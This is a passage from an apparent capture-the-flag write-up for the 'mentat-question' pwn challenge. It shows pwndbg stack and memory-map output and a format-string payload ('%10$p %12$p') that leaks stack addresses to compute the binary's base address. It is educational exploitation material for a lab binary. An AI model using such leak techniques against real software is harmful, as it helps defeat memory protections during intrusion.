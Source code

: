 ```bash
04:0020│ rbp 0x7fffffffd850 —▸ 0x7fffffffd880 ◂— 0x1
05:0028│+008 0x7fffffffd858 —▸ 0x55555555545c (main+337) ◂— mov dword ptr [rbp - 4], eax
06:0030│+010 0x7fffffffd860 —▸ 0x7fffffffdc09 ◂— 0x34365f363878 /* 'x86_64' */
07:0038│+018 0x7fffffffd868 ◂— 'd4294967296'
───────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────
 ► 0   0x5555555552bb calculate+204
   1   0x55555555545c main+337
   2   0x7ffff7dabd90 __libc_start_call_main+128
   3   0x7ffff7dabe40 __libc_start_main+128
   4   0x555555555105 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>

```
I crafted a payload `Yes %10$p %12$p` and from the above snippet we could observe that these values correspond to the pointers at `[rbp]` and `[rbp + 0x10]`. Since, we know `[rbp + 0x08]` is just `(main + 337)`, hence we could leak this memory address to calculate the base address of our elf file. We also need the current base address of the executing binary which is easy to extract using `vmmap`.

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 ~/ctfs/umdctf2024/mentat-question/mentat-question
    0x555555555000     0x555555556000 r-xp     1000   1000 ~/ctfs/umdctf2024/mentat-question/mentat-question
    0x555555556000     0x555555557000 r--p     1000   2000 ~/ctfs/umdctf2024/mentat-question/mentat-question
    0x555555557000     0x555555558000 r--p     1000   2000 ~/ctfs/umdctf2024/mentat-question/mentat-question
    0x555555558000     0x555555559000 rw-p     1000   3000 ~/ctfs/umdctf2024/mentat-question/mentat-question
    0x7ffff7d7f000     0x7ffff7d82000 rw-p     3000      0 [anon_7ffff7d7f]
    0x7ffff7d82000     0x7ffff7daa000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7daa000     0x7ffff7f3f000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f3f000     0x7ffff7f97000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f97000     0x7ffff7f98000 ---p     1000 215000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f98000     0x7ffff7f9c000 r--p     4000 215000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f9c000     0x7ffff7f9e000 rw-p     2000 219000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f9e000     0x7ffff7fab000 rw-p     d000      0 [anon_7ffff7f9e]
    0x7ffff7fbb000     0x7ffff7fbd000 rw-p     2000      0 [anon_7ffff7fbb]
    0x7ffff7fbd000     0x7ffff7fc1000 r--p     4000      0 [vvar]
    0x7ffff7fc1000     0x7ffff7fc3000 r-xp     2000      0 [vdso]
    0x7ffff7fc3000     0x7ffff7fc5000 r--p     2000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc5000     0x7ffff7fef000 r-xp    2a000   2000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fef000     0x7ffff7ffa000 r--p     b000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffdd000     0x7ffffffff000 rw-p    22000      0 [stack]
pwndbg>
```
